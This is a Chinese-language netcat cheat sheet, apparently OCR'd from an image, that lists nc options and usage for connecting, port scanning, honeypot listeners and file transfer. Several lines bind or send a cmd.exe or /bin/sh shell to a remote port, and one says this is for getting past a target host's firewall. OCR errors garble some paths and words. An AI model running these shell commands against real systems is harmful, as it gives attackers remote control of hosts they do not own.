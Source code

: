 　　参数说明：

　　-h 查看帮助信息

　　-d 后台模式

　　-e prog程序重定向，一但连接就执行[危险]

　　-i secs延时的间隔

　　-l 监听模式，用于入站连接

　　-L 监听模式，连接天闭后仍然继续监听，直到CTR+C

　　-n IP地址，不能用域名

　　-o film记录16进制的传输

　　-p[空格]端口 本地端口号

　　-r 随机本地及远程端口

　　-t 使用Telnet交互方式

　　-u UDP模式

　　-v 详细输出，用-vv将更详细

　　-w数字 timeout延时间隔

　　-z 将输入，输出关掉（用于扫锚时）

　　基本用法：

　　nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口

　　nc -l -p 80 开启本机的TCP 80端口并监听

　　nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口

　　nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口

　　nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口

　　高级用法：

　　nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止

　　nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt

　　nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用

　　type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用

　　本机上用：nc -l -p 本机端口

　　在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K

　　nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙

　　本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称

　　在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机
